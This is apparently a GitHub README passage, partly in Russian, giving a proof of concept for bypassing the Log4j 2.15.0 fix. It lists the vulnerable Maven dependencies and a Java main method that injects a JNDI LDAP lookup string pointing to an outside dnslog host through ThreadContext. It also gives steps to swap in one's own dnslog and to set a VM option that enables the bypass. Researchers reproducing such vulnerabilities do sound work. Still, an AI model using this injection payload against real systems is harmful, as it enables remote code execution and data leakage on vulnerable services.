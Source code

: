 ```
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
```

Метод main:

```
public static void main(String[] args) {
    Logger logger = LogManager.getLogger(ThreadContext_PoC.class);
    ThreadContext.put("myContext", "${jndi:ldap://127.0.0.1#.m92ijy.dnslog.cn/exp}");
    logger.error("test");
}
```
<img src="./screens/2.png" width="100%">

ВАЖНО! m92ijy.dnslog.cn -- это dnslog, сгенерированный на http://dnslog.cn . Для того, чтобы локально повторить эксплойт, нужно на этом сайте сгенерировать свой dnslog и заменить m92ijy.dnslog.cn;

Перед запуском необходио пройти в Edit Configurations и выбрать опцию Modify options и добавить галочку в add VM options. В появившемся поле VM options добавляем -Dcom.sun.jndi.ldapURLParsing="legacy" . 
